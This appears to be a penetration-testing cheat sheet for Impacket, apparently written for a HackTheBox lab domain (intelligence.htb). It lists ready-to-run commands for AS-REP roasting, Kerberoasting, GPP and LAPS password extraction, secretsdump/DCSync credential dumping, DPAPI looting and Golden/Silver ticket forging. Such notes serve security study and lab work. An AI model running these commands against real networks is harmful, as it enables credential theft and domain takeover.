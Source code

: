 
## 🔐 Credential Harvesting & Roasting

**impacket-GetNPUsers**  
_What_: AS-REP roast users with DONT_REQUIRE_PREAUTH.  
_When_: Early foothold; no creds needed if you have usernames.  
_Example_: `impacket-GetNPUsers intelligence.htb/ -dc-ip 10.10.10.248 -usersfile users.txt -format hashcat -outputfile asrep.hashes`

**impacket-GetUserSPNs**  
_What_: Kerberoast SPNs; optionally request tickets to crack.  
_When_: With any valid domain creds.  
_Example_: `impacket-GetUserSPNs intelligence.htb/USER:P@ss -request -outputfile spn.hashes -dc-ip 10.10.10.248`

**impacket-Get-GPPPassword**  
_What_: Parse Group Policy Preferences creds (cpassword).  
_When_: Older ADs; quick cleartext win.  
_Example_: `impacket-Get-GPPPassword -dc-ip 10.10.10.248 intelligence.htb/USER:P@ss`

**impacket-GetLAPSPassword**  
_What_: Query LAPS-managed local admin passwords (if rights).  
_When_: You have read rights to `ms-Mcs-AdmPwd`.  
_Example_: `impacket-GetLAPSPassword intelligence.htb/USER:P@ss -dc-ip 10.10.10.248`

**impacket-secretsdump**  
_What_: Dump local SAM, LSA secrets, NTDS.dit, DCSync.  
_When_: After admin/RBCD/DCSync rights, or local admin on a box.  
_Example_: `impacket-secretsdump intelligence.htb/DAUSER:P@ss@10.10.10.248 -just-dc`

**impacket-samrdump**  
_What_: Enumerate SAM via SAMR (users, groups).  
_When_: Post-auth recon for local accounts.  
_Example_: `impacket-samrdump 10.10.10.248`

**impacket-mimikatz**  
_What_: Remote execute Mimikatz-like operations via Impacket (build-dependent).  
_When_: Rare; typically use actual Mimikatz on host.  
_Example_: _Varies; not always present in all builds._

**impacket-dpapi**  
_What_: DPAPI blob/masterkey parsing.  
_When_: Loot browser creds, WiFi, RDP, etc., after profile access.  
_Example_: `impacket-dpapi masterkey ...`

---

## 🎭 Kerberos – Tickets, Delegation & Abuse

**impacket-getTGT / impacket-getST**  
_What_: Request TGT (AS-REQ) and service tickets (TGS-REQ).  
_When_: Using passwords/hashes/AES keys; S4U for delegation.  
_Example_: `impacket-getTGT intelligence.htb/USER:P@ss -dc-ip 10.10.10.248`

**impacket-ticketer**  
_What_: Forge Kerberos tickets (Golden/Silver), set custom PAC.  
_When_: KRBTGT compromise / lab work.  
_Example_: `impacket-ticketer -nthash <krbtgt_NT> -domain-sid S-1-5-21-... -domain intelligence.htb Administrator`
